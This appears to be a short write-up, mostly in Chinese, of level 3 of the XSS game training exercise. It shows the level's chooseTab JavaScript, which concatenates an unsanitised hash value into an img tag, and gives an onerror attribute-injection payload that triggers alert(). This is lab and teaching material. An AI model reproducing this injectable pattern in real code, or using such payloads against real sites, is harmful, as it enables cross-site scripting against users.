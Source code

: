 ![Untitled](XSS-game%2056d250f01c1a4380afd46848c2319fac/Untitled%202.png)

- **Target code**
    
    ```jsx
    function chooseTab(num) {
            // Dynamically load the appropriate image.
            var html = "Image " + parseInt(num) + "<br>";
            html += "<img src='/static/level3/cloud" + num + ".jpg' />";
            $('#tabContent').html(html);
     
            window.location.hash = num;
     
            // Select the current tab
            var tabs = document.querySelectorAll('.tab');
            for (var i = 0; i < tabs.length; i++) {
              if (tabs[i].id == "tab" + parseInt(num)) {
                tabs[i].className = "tab active";
                } else {
                tabs[i].className = "tab";
              }
            }
    ```
    

透過原始碼可以發現在 img 載入的地方是使用`"<img src='/static/level3/cloud" + num + ".jpg' />";` 字串的方式進行串接，所以只要多增加 `onerror=` 屬性，當 img 載入錯誤時觸發 `onerror` 即可。

使用以下 payload

```html
X' onerror="alert()" '
```
